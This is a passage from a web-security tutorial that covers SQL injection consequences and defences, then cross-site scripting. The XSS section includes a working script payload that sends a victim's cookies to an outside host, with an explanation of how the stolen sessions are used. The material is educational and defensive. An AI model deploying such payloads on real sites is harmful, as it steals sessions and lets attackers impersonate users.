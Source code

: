 There is a very cool tool called [sqlmap](http://sqlmap.org/) that pen-testers use for such occasions, so highly recommended to learn how to use it and try to scan your web-app maybe. I remember writing complex scripts for the things this tool does and was very happy to learn that such tool exists.

Also, there is an OWASP page [here](https://www.owasp.org/index.php/SQL_Injection). OWASP is a non-for-profit security-focused organization that collects a wikipedia-like database describing attack vectors and vulnerabilities.

### Consequences

The attacker is able to:

* Bypass authentication
* Alter or destroy your database (hope you have backups, right?)
* Get access to your entire database and download it

### How to protect

* **NEVER** use string interpolation or concatenation, don't implement SQL builders yourself
* **ALWAYS** use a library that sanitizes query parameters properly

## Cross-site scripting (XSS)

If SQL injection attack was against the server this is one is against the clients — browsers. I'm pretty sure that everybody who's using the internet knows that browsers run JavaScript to make your user experience more interactive, so you don't have to request the whole page from the server every time you need to render a word. But everything comes with a cost and JavaScript is not an exception. The nature of the XSS attack vector is rendering of some malicious UGC that contains JavaScript code and the browser mistakenly evaluates this JavaScript which it should not.

This attack most likely would not affect your server much, but it can actually steal sessions of your users which can definitely affect your company and reputation particularly.

### How to attack

Again, there are many ways to execute this depending on your goals but if I were to steal active user sessions on a vulnerable web-site I'd post the following on a public feed that users most likely to see:

```html
<script>
  var e=document.createElement('img');
  e.src='https://rdner.de/inbox?sess='+encodeURIComponent(document.cookie);
  document.body.appendChild(e);
</script>
```

If the web-site does not escape the output properly this is what happens:

* The `<script>` tag tells the browser to start evaluating the expression inside the tag
* Then the code creates a new `img` element, sets the source of the image as `'https://rdner.de/inbox?sess='+encodeURIComponent(document.cookie)` and the `encodeURIComponent(document.cookie)` part actually extracts all your cookies including your current web-site session identifier that can be used to impersonate you from another browser by the attacker (in this case me).
* The `img` element is appended to the page which means the browser makes a request with the URL I set to fetch the image and display it. The browser does not care what URL you put there, it just tries to request the content. And yes, your [CORS policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS) does not matter here at all.
* I collected all the sessions I received via such requests and I can set these cookies in my browser and get access to your account, see any data there, post on your behalf and maybe convince your friends to send me some money.
